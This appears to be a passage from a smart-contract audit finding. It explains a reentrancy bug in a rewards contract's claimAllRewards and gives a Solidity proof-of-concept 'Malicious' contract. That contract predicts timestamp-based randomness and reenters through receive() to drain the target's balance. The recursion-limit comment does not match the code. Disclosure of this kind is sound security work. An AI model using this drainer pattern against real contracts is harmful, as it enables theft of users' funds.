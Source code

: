   This happens because the state (`rewardsOwned[msg.sender]`) is not updated (i.e., deleted) until after the funds transfer. Therefore, on each reentry, the array still holds the rewards, allowing the attacker to continuously withdraw.
## POC:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IRewardsContract {
    function buyBox() external payable;
    function openBox() external;
    function boxesOwned(address _owner) external view returns (uint256);
    function claimAllRewards() external;
}

contract Malicious {
    IRewardsContract public rewardsContract;
    address public owner;
    uint256 public callCount = 0 ;

    constructor(address _rewardsContract) {
        rewardsContract = IRewardsContract(_rewardsContract);
        owner = msg.sender;
    }

        function calculateRandom() public view returns (uint256) {
        return uint256(keccak256(abi.encodePacked(block.timestamp, address(this)))) % 100;
    }

    function buy() public payable {
         rewardsContract.buyBox{value: 0.1 ether}();
    }

    function attack() public {
        require(rewardsContract.boxesOwned(address(this)) > 0, "No boxes owned");

        uint256 predictedRandomValue = calculateRandom();

        if (predictedRandomValue >= 90) {
            rewardsContract.openBox();
            rewardsContract.claimAllRewards();
        }
    }

    receive() external payable {
        // Limit the number of recursive calls to prevent reverts
         if (address(rewardsContract).balance > 0) {
            callCount++;
            rewardsContract.claimAllRewards();
        }
    }
}
```
\*I Chained the bug together just to demonstrate how easy it could be to Exploit this Vulnerability \*
